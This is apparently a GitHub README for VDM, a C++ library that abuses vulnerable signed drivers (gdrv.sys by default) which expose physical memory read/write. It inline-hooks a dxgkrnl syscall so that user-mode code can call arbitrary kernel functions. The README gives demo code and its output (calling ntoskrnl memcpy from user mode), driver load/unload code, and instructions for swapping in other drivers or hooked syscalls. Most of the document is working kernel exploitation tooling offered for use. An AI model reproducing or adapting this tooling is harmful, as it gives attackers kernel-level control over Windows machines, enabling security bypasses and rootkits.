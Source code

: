 <div align="center">
    <div>
        <img src="https://imgur.com/7ipSZRN.png"/>
    </div>
</div>

# Vulnerable Driver Manipulation

A library to manipulate drivers exposing a physical memory read/write primitive to allow the user to call any function in the kernel. There are thousands of drivers exposing physical
memory read/write, a bunch are listed in this repo. Currently the project is using gdrv.sys, and is inline hooking `dxgkrnl.NtGdiDdDDICreateContext`.

# Example

In this example VDM syscalls into an inline hook placed on `dxgkrnl.NtGdiDdDDICreateContext` to call memcpy exported from ntoskrnl.exe.

#### Demo Code
```cpp
vdm::vdm_ctx vdm;
const auto ntoskrnl_base =
reinterpret_cast<void*>(
    util::get_module_base("ntoskrnl.exe"));

const auto ntoskrnl_memcpy =
    util::get_kernel_export("ntoskrnl.exe", "memcpy");

std::printf("[+] drv_handle -> 0x%x, drv_key -> %s\n", drv_handle, drv_key.c_str());
std::printf("[+] %s physical address -> 0x%p\n", vdm::syscall_hook.first, vdm::syscall_address.load());
std::printf("[+] ntoskrnl base address -> 0x%p\n", ntoskrnl_base);
std::printf("[+] ntoskrnl memcpy address -> 0x%p\n", ntoskrnl_memcpy);

short mz_bytes = 0;
vdm.syscall<decltype(&memcpy)>(
	ntoskrnl_memcpy,
	&mz_bytes,
	ntoskrnl_base,
	sizeof mz_bytes
);
std::printf("[+] kernel MZ -> 0x%x\n", mz_bytes);
```

#### Demo Code Result
```
[+] drv_handle -> 0xb0, drv_key -> frAQBc8Wsa1xVPfv
[+] NtGdiDdDDICreateContext physical address -> 0x0000000100ACA5F0
[+] ntoskrnl base address -> 0xFFFFF80075200000
[+] ntoskrnl memcpy address -> 0xFFFFF800755F0980
[+] kernel MZ -> 0x5a4d
[+] press any key to close...
```

# Usage

Currently the project is configured to use gdrv, but if you want to swap the driver out you must defined four functions. You can also change which syscall you want to 
hook by changing this variable inside of `vdm_ctx/vdm_ctx.h`.

```cpp
// change this to whatever you want :^)
constexpr std::pair<const char*, const char*> syscall_hook = { "NtGdiDdDDICreateContext", "win32u.dll" };
```

### vdm::load_drv

Replace this function with the code required to load your driver... Return an std::pair containing the driver handle and an std::string containing the registry key name
for the driver. The key name is returned from [loadup](https://githacks.org/xerox/loadup).

```cpp
__forceinline auto load_drv() -> std::pair <HANDLE, std::string>
{
	const auto [result, key] =
	    driver::load(
		vdm::raw_driver,
		sizeof(vdm::raw_driver)
	    );

	if (!result) return { {}, {} };
	vdm::drv_handle = CreateFile(
		"\\\\.\\GIO",
		GENERIC_READ | GENERIC_WRITE,
		NULL,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL
	);

	return { vdm::drv_handle, key };
}
```

### vdm::unload_drv

This code probably wont change, its just a wrapper function for `driver::unload`, but it also closes the driver handle before trying to unload the driver...

```cpp
__forceinline bool unload_drv(HANDLE drv_handle, std::string drv_key)
{
    return CloseHandle(drv_handle) && driver::unload(drv_key);
}
```

### vdm::read_phys

Most drivers expose mapping of physical memory. This means you will need to map the physical memory, memcpy it, then unmap it. This allows support
for drivers that actually only offer physical read and write and not physical map/unmap.

```cpp
__forceinline bool read_phys(void* addr, void* buffer, std::size_t size)
{
    // code to read physical memory. most drivers offer map/unmap physical
    // so you will need to map the physical memory, memcpy, then unmap the memory
}
```

### vdm::write_phys

This function is going to probably contain the same code as `vdm::read_phys` except the memcpy dest and src swapped...

```cpp
__forceinline bool write_phys(void* addr, void* buffer, std::size_t size)
{
    // code to write physical memory... same code as vdm::read_phys
    // except memcpy dest and src are swapped.
}
```